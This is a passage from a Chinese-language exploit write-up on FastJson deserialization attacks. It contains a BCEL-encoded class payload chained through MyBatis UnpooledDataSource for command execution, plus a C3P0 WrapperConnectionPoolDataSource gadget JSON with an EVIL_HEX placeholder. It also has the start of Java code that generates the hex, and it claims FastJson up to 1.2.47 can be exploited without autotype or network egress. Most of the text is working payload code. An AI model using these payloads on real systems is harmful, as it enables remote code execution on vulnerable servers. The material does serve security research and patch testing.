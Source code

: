 ```java
        "{\"@type\":\"org.apache.ibatis.datasource.unpooled.UnpooledDataSource\", \"driverClassLoader\":{\"$ref\":\"$[1]\"}, \"driver\":\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeO$cbj$c2P$Q$3dc$d4$a41$f5Y$ad$b8s$d5$d8E$dd$b8S$KAp$rX$w$e8$3a$de$5e$c2$95$98$40$bc$W$7f$cbM$95$$$fa$B$7e$948$B$c1$40g$60$5e$9csf$e6$7c$f9$fd$D0$40$9b$60x$9eg$82$I$d5$b5$ff$ed$f7C$3f$K$fa$b3$d5Z$Km$c2$m$UG$wR$fa$9dqnoA$c8$8f$e3$_$e9$a0$80$a2$8d$3c$yB$ed$ce$fa$dcEZm$a4$J$9b$60$HR$dfzB$d3$edM$ff$c1$86$O$i$3c$da$u$a1$cc$b2$c2$P$85$85$wWr$_$F$e1$c5$cd0$e6$3aQQ0$cc$8a$7c$q$b1$90$db$z$8b$d4$d1HE$9ex$e7$3c$de$rBNT$c8$3b$z$7e$eb$z$c5$a3$8b$i$9f$9a$g$b1$f3$e5$iM$ee$3a$3c$t$ce$e5$d7$p$kN$a8$d4k$3fh$$$P7d$8bc$O$cfW$8d$m$acL$w$B$A$A\"}," +
        "{\"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\",\"\":\"\"}," +
        "{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"connection\":{}}," +
        "{\"@type\":\"org.apache.ibatis.datasource.unpooled.UnpooledDataSource\",\"driver\":{\"$ref\":\"$.connection\"}}" +
        "]";

System.out.println(js2);
JSON.parse(js2);
```
在Web端就分两步构造，先执行js1添加Class，
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1691734924453-457c3a51-420c-479b-bc43-caa117e07f07.png#averageHue=%23fdfdfd&clientId=u659bfbb1-7b70-4&from=paste&height=232&id=ubcad5285&originHeight=290&originWidth=830&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26419&status=done&style=none&taskId=u9c0c532d-cc94-4d34-ac44-fd0565d6b1a&title=&width=664)
再执行js2命令执行。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1691734957904-ee9dbaa7-197a-403e-a0a4-3147a5f79719.png#averageHue=%23f7f7f7&clientId=u659bfbb1-7b70-4&from=paste&height=310&id=ud3703ddd&originHeight=387&originWidth=1154&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=82986&status=done&style=none&taskId=ue309618f-5917-4c95-aca5-c5c71c4604a&title=&width=923.2)
## C3P0二次反序列化
只要存在C3P0依赖，FastJson<=1.2.47通杀，无需开启autotype，且能够不出网利用。
这里之前写错了，其实不用引入例如CC这样的反序列化漏洞链，FastJson本身也存在原生发序列化漏洞链，且覆盖1.2全版本(没想到吧XD),所以利用范围就更大了。具体可看这篇：[FastJson原生反序列化](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)
```xml
<dependency>
    <groupId>com.mchange</groupId>
    <artifactId>c3p0</artifactId>
    <version>0.9.5.4</version>
</dependency>
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```
```java
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
    },
    "b":{
        "@type":"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
        "userOverridesAsString":"HexAsciiSerializedMap:EVIL_HEX;",
    }
}
```
生成evil_hex：
```java
public static void main(String[] args) throws Exception {
        String evil_hex = bytesToHex(tobyteArray(gen()));
        String FJ1247 = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n" +
```